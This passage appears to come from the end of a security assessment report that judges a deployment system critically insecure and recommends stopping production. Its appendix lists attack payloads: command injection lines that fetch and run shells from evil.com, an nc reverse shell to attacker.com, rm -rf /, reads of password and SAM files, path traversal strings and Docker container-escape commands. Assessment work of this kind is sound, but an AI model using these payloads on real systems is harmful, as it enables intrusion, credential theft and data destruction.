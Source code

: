 ### Security Architecture Requirements
1. **Authentication Layer**: Multi-factor authentication for all access
2. **Authorization Engine**: Role-based access control (RBAC)
3. **Input Validation Framework**: Comprehensive sanitization
4. **Security Monitoring**: SIEM integration and threat detection
5. **Incident Response**: Automated response and containment

---

## CONCLUSION

The Claude Optimized Deployment system represents a **CRITICAL SECURITY RISK** with multiple attack vectors leading to complete infrastructure compromise. The lack of fundamental security controls makes this system unsuitable for production deployment without immediate and comprehensive security remediation.

**Recommendation**: **STOP ALL PRODUCTION DEPLOYMENT** until critical security vulnerabilities are addressed.

---

## APPENDIX: ATTACK PAYLOADS

### Command Injection Payloads
```bash
# Unix/Linux
; cat /etc/passwd
&& wget http://evil.com/shell.sh -O /tmp/shell && chmod +x /tmp/shell && /tmp/shell
| nc attacker.com 4444 -e /bin/bash
`rm -rf / --no-preserve-root`

# Windows
; type C:\Windows\System32\config\SAM
&& powershell -c "Invoke-WebRequest -Uri http://evil.com/shell.ps1 -OutFile C:\temp\shell.ps1; C:\temp\shell.ps1"
| powershell -c "Start-Process cmd -ArgumentList '/c echo pwned'"
```

### Path Traversal Payloads
```bash
../../../etc/passwd
..\..\..\..\windows\system32\config\sam
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
....//....//....//etc/passwd
..%252f..%252f..%252fetc%252fpasswd
```

### Container Escape Payloads
```bash
# Docker socket access
docker run -v /var/run/docker.sock:/var/run/docker.sock -it alpine docker ps

# Host filesystem mount
docker run -v /:/host -it alpine chroot /host

# Privileged container
docker run --privileged -v /dev:/dev -it alpine
```

---
*Document Classification: CONFIDENTIAL - Security Assessment*